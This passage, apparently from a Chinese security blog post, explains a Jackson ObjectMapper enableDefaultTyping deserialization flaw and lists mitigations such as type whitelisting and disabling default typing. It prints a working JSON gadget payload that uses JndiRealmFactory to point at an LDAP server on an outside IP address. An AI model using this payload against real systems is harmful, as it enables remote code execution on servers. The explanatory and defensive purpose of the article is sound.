 **2.漏洞分析：**  
- enableDefaultTyping()该漏洞存在于类方法的使用中  
ObjectMapper。此方法启用默认类型，允许 Jackson 反序列化对象而不指定其确切类型。  
  
- 如果 JSON 数据包含特制的有效负载，则启用默认类型可能会导致远程执行代码。  
  
**3.开发：**  
- 攻击者可以通过制作恶意 JSON 负载来触发服务器上任意代码的执行来利用此漏洞。  
  
- 示例中提供的有效负载包含类名 (   
org.jsecurity.realm.jndi.JndiRealmFactory) 及其关联属性，这些属性可能是较大攻击链的一部分。  
  
**4.有效负载分析：**  
- 示例中提供的有效负载为：  
  
```
  String payload = "[\"org.jsecurity.realm.jndi.JndiRealmFactory\", {\"jndiNames\":\"ldap://30.196.97.50:1389/yto8pc\"}]";
```  
- 此负载表示一个 JSON 数组，其中第一个元素是类名称，第二个元素是一组属性。它尝试使用指向潜在恶意 LDAP 服务器的  
JndiRealmFactory属性进行实例化。  
jndiNames  
  
**5.缓解措施：**  
- enableDefaultTyping()禁用Jackson 中的默认键入 ( )  
ObjectMapper以防止多态反序列化。  
  
- 在反序列化之前实施严格的输入验证并清理输入。  
  
- 使用白名单方法仅允许反序列化已知且可信的类型。  
  
- 考虑使用不支持多态反序列化的替代序列化格式，例如 Protocol Buffers 或 JSON-B。  
  
**6.有效负载利用示例：**  
- 攻击者可以制作恶意 JSON 有效负载：  
  
- 利用反序列化过程中的漏洞在服务器上执行任意代码。  
  
- 在服务器上执行文件系统访问、网络通信或命令执行等操作。  
  
其它文章参考：  
- https://github.com/JoyChou93/java-sec-code?tab=readme-ov-file  
  
- https://devsecopsguides.com/  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
